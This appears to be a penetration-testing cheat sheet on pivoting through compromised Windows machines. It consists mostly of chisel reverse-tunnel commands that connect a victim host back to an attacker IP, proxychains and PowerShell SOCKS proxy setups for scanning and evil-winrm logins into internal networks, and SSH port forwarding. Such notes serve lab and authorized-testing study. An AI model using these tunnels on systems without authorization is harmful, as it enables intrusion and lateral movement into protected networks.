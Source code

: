 # Windows pivoting

### Added nmap portable for linux systems

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Understanding => R:1234(Remote Port):127.0.0.1(localhost):1234(Local Port)


Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

attackers box: 
./chisel server -p 8000 --reverse

victims box:
.\chisel.exe client <attackersIP>:8000 R:8001:127.0.0.1:1337

victims box:
.\chisel.exe server -p 1337 --socks5

attackers box:
./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <TargetIP> -p445 -Pn
proxychains evil-winrm.rb -i <IP> -u user -p pass
```

### Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```

### Using powershell to SOCKS Proxy (Thanks to @sinfulz for recommending this)
```
From Kali: Edit /etc/proxychains.conf, add "socks5 9080" at the bottom.
From Victim Box: Import-Module .\Invoke-SocksProxy.ps1
From Victim Box: Invoke-SocksProxy -bindPort 9080
From Kali: proxychains nmap -sT <target_IP> -Pn
```

### Port Forwarding using SSH
```
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR>
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR> -p 22
```
